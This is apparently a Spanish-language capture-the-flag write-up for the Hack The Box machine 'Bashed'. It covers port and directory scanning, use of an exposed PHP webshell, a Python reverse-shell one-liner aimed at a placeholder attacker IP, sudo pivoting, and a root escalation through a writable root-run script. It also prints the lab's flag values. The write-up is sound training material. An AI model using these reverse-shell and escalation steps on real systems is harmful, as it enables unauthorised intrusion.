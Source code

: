 ```yaml
---
layout: post
title: Bashed
subtitle: Plataforma HTB Dificultad Fácil
cover-img: /assets/img/irkedpque.png
thumbnail-img: /assets/img/irkedpque.png
share-img: /assets/img/Irked.png
author: Elmili72
---
```

![image](https://github.com/user-attachments/assets/3ba96632-5c35-4e79-bd54-6c4e495fbabb)

## 1. Escaneo general de puertos

Primero hacemos un ping para ver si tenemos conexión con la máquina y que sistema operativo utiliza:
```bash
$ ping -c 1 10.10.10.68                               
PING 10.10.10.68 (10.10.10.68) 56(84) bytes of data.
64 bytes from 10.10.10.68: icmp_seq=1 ttl=63 time=125 ms

--- 10.10.10.68 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 124.645/124.645/124.645/0.000 ms
```

Después de comprobar que tenemos conexión con el equipo realizamos el escaneo general.

```bash
$ sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 10.10.10.68 -oG allports 
[sudo] contraseña para elmili: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-14 02:04 CEST
Initiating SYN Stealth Scan at 02:04
Scanning 10.10.10.68 [65535 ports]
Discovered open port 80/tcp on 10.10.10.68
Completed SYN Stealth Scan at 02:04, 18.16s elapsed (65535 total ports)
Nmap scan report for 10.10.10.68
Host is up, received user-set (0.12s latency).
Scanned at 2025-04-14 02:04:21 CEST for 18s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
```

## 2. Escaneo específico de los puertos encontrados

Tras descubrir los puertos abiertos hacemos un escaneo específico al puerto 80 (HTTP), para conocer las versiones y los servicios que corren en el puerto.

```bash
$ nmap -sCV -p80 10.10.10.68 -oN escaneo                              
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-14 02:05 CEST
Nmap scan report for 10.10.10.68
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.11 seconds
```

## 3. Reconocimiento del sitio web (HTTP)

Vemos un blog que habla del desarrollo de una webshell hecha con php para pentesting. Y de hecho encontramos un link a github de como está montada.

![Pasted image 20250414020652](https://github.com/user-attachments/assets/cafc4848-7ed6-4c20-a7ed-50319e792dac)
![Pasted image 20250414020716](https://github.com/user-attachments/assets/eace1ce3-eb0e-49a9-b71c-2076196da6d1)

## 4. Escaneo de subdirectorios

Realizamos un escaneo de subdirectorios por si pudiera haber algo interesante subido (como por ejemplo el proyecto de github :D).

```bash
$ gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,js
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,js,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/about.html           (Status: 200) [Size: 8193]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/contact.html         (Status: 200) [Size: 7805]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/index.html           (Status: 200) [Size: 7743]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/config.php           (Status: 200) [Size: 0]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/single.html          (Status: 200) [Size: 7477]
/scroll.html          (Status: 200) [Size: 10863]
```

Y efectivamente vemos algún subdirectorio interesante como "/dev" en el que encontramos efectivamente la webshell de nuestro amigo Arrexel.

![Pasted image 20250414021112](https://github.com/user-attachments/assets/ca014ffe-435b-4bc1-a9a4-6572acec8902)

![Pasted image 20250414021149](https://github.com/user-attachments/assets/6e113b3f-1d80-4be3-9c55-dd41dcec4045)

## 5. Intrusión

Una vez tenemos la webshell funcional podemos lanzarnos una shell a nosotros mismos para ganar acceso al equipo y poder pivotar entre los usuarios que haya.

```bash
# En una terminal
nc -lnvp <puerto_atacante>
```

```bash
# En la webshell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip_atacante>",<puerto_atacante>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

Vemos dos directorios, en el directorio "arrexel" tenemos permisos de lectura y en el tenemos el archivito de la flag "users.txt". Primera parte hecha.

```bash
www-data@bashed:/home$ ls
arrexel  scriptmanager
```

```bash
www-data@bashed:/home$ cd arrexel/
www-data@bashed:/home/arrexel$ ls
user.txt
www-data@bashed:/home/arrexel$ cat user.txt
{a14ff9b051a66fc4e430bb948a95f494}
```

## 6. Pivoting

Ahora para realizar el pivoting realizamos un típico sudo -l y vemos que podemos "generar" una bash del usuario scriptmanager simplemente desde el usuario "www-data" .

```bash
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

![Pasted image 20250414021942](https://github.com/user-attachments/assets/a3d9cba3-e7c8-45eb-9cfe-5717dad6908c)

## 7. Escalada de privilegios

Una vez somos el usuario "scriptmanager" buscamos posibles archivos con permisos SUID que nos permitan hacer la escalada. Pero nada.

```bash
scriptmanager@bashed:/home/arrexel$ find / -perm -4000 2>/dev/null
/bin/mount
/bin/fusermount
/bin/su
/bin/umount
/bin/ping6
/bin/ntfs-3g
/bin/ping
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

Buscando un poco he visto que hay un programa de python ejecutandose desde el usuario root, pero en el que tenemos permisos de escritura con el usuario "scriptmanager", el archivo "test.py".

![Pasted image 20250414022155](https://github.com/user-attachments/assets/384b21ac-7ec5-4455-a647-6e05fb06ee6c)

![Pasted image 20250414022211](https://github.com/user-attachments/assets/31b18402-c388-44ea-9933-70d3c33f156a)
![Pasted image 20250414022226](https://github.com/user-attachments/assets/fc9c1294-5d98-4731-9be6-807c65b097e4)

Pues cogemos este archivo y lo modificamos de la siguiente manera para otorgarle permisos SUID a "/bin/bash" y poder generar una bash con privilegios sin problema.

![Pasted image 20250414022337](https://github.com/user-attachments/assets/17183db7-bfb9-4867-ac85-98134bd53d9b)

![Pasted image 20250414022409](https://github.com/user-attachments/assets/e3971c76-8dfc-4e49-8642-b34088ea507e)

Y ya tendríamos nuestra flag.

```bash
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt
{5c47a895a691a110783393957339f985}
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!

